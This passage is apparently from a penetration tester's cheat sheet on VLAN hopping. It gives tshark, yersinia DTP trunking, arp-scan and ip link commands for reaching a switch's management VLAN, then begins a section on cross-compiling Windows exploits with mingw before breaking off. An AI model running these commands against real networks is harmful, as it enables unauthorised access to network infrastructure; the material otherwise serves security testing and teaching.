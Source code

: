 Extract the information required:

{% highlight PowerShell %}
tshark -a duration:90 -i hop0 -Y 'cdp' -V | grep -E 'Native VLAN:|VTP Management Domain:|IP address:'
{% endhighlight %}

OR

Look at CDP packets extract Native VLAN, VTP Mgmt Domain & Mgmt IP Address. IF Mgmt IP is empty, start yersinia (yersinia dtp -attack 1 -interface hop0)

Enable trunk port with yersinia:

{% highlight PowerShell %}
yersinia dtp -attack 1 -interface hop0
{% endhighlight %}

Extract the VLAN ID’s

{% highlight PowerShell %}
tshark -a duration:90 -i hop0 -Y "vlan" -x -V 2>&1 | grep 802.1Q
{% endhighlight %}

OR

Apply ‘vlan’ filter in Wireshark, look at the STP packets for VLAN ID’s. Find the VLAN with the management IP on it:

Scan the vlan

{% highlight PowerShell %}
arp-scan -Q <vlan id> -I <interface> --arpspa <src ip (pick something close to mgmt ip) <mgmt ip>
{% endhighlight %}

Create the new virtual adaptor on the VLAN:

{% highlight PowerShell %}
ip link add link <interface> name <interface>.<vlanid> type vlan id <vlan id>
{% endhighlight %}

Assign yourself an IP:

{% highlight PowerShell %}
ip link set dev <interface>.<vlanid> up
ip addr add <src ip>/24 dev <interface>.<vlanid>
{% endhighlight %}

# Compile Exploits

32-bit Windows executable

{% highlight PowerShell %}
i686-w64-mingw32-gcc -o Object_Name32.exe ProgramName.c
{% endhighlight %}

64-bit Windows executable
